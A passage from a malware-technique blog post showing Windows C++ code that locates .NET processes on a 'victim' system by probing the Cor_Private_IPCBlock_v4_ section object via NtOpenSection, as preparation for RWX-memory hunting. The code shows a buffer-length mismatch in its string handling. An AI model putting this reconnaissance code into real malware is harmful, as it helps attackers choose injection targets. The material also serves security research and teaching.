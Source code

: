 ```cpp
      WCHAR objPath[] = L"\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_";
      sName.Buffer = (PWSTR) malloc(500);

      // convert INT to WCHAR
      swprintf_s(procNumber, L"%d", pid);

      // and fill out UNICODE_STRING structure
      ZeroMemory(sName.Buffer, 500);
      memcpy(sName.Buffer, objPath, wcslen(objPath) * 2);   // add section name "prefix"
      StringCchCatW(sName.Buffer, 500, procNumber);      // and append with process ID
      sName.Length = wcslen(sName.Buffer) * 2;    // finally, adjust the string size
      sName.MaximumLength = sName.Length + 1;    
      
      InitializeObjectAttributes(&oa, &sName, OBJ_CASE_INSENSITIVE, NULL, NULL);
      NTSTATUS status = myNtOpenSection(&sHandle, SECTION_QUERY, &oa);
      if (NT_SUCCESS(status)) {
        CloseHandle(sHandle);
        break;
      }
    }
  }

  return current;
}
```

Just convert process id int to UNICODE STRING and concat, then try to find section logic.     

Here, `NtOpenSection` API use for opens a handle for an existing section object:    

```cpp
typedef NTSTATUS (NTAPI * fNtOpenSection)(
  PHANDLE            SectionHandle,
  ACCESS_MASK        DesiredAccess,
  POBJECT_ATTRIBUTES ObjectAttributes
);
```

So, the full source code for this logic (finding `.NET` processes in the victim's system) looks like this:    

```cpp
/*
 * hack2.c - hunting RWX memory
 * detect .NET process
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/05/01/malware-trick-38.html
*/
#include <windows.h>
#include <stdio.h>
#include <psapi.h>
#include <shlwapi.h>
#include <strsafe.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI * fNtGetNextProcess_t)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

typedef NTSTATUS (NTAPI * fNtOpenSection_t)(
  PHANDLE            SectionHandle,
  ACCESS_MASK        DesiredAccess,
```